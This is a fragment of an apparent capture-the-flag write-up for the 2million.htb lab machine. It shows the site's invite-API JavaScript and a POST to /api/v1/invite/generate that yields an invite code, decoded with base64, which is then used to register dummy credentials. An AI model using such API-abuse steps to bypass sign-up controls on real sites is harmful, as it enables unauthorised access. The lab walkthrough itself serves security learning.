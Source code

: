 ```
```

Opening page `/invite` has following javascript `http://2million.htb/js/inviteapi.min.js` which has the API names.

Checking the code of the javascript.
```
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```

### Attack

In order to generate the invite code, we need to make a POST request to /api/v1/invite/generate
```
$.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
```
Invite Code: `echo "NjNGNDctTEIyRFctR0RLS1otNThXUzE=" | base64 -d # 63F47-LB2DW-GDKKZ-58WS1`
We can creat dummy credentails on the website using the invite code : `test@test.com:test`
